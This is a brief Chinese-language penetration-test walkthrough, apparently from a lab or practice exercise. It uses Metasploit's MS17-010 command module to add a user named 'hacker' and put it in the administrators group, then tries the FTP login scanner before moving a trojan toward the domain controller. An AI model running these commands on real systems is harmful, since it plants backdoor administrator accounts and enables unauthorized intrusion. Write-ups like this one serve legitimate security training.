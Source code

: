 ### MSF auxiliary 模块 FTP 爆破

切换为 `auxiliary/admin/smb/ms17_010_command`

![](https://pic1.imgdb.cn/item/68dc0b98c5157e1a884b4eac.png)

可以利用 

![](https://pic1.imgdb.cn/item/68dc0c21c5157e1a884b4fb8.png)

添加账号

```
set command net user hacker clc@123 /add
```

![](https://pic1.imgdb.cn/item/68dc0d6cc5157e1a884b5245.png)

然后把添加的用户加入管理员组

```
set command net localgroup administrators hacker /add
```

![](https://pic1.imgdb.cn/item/68dc0dd5c5157e1a884b531c.png)

因为之前发现开启了 21 端口 FTP 服务，所以尝试登录 FTP

```
use auxiliary/scanner/ftp/ftp_login
```

登录成功，这里就可以通过 Windows 7 向域控传递木马文件

![](https://pic1.imgdb.cn/item/68dc1028c5157e1a884b570e.png)

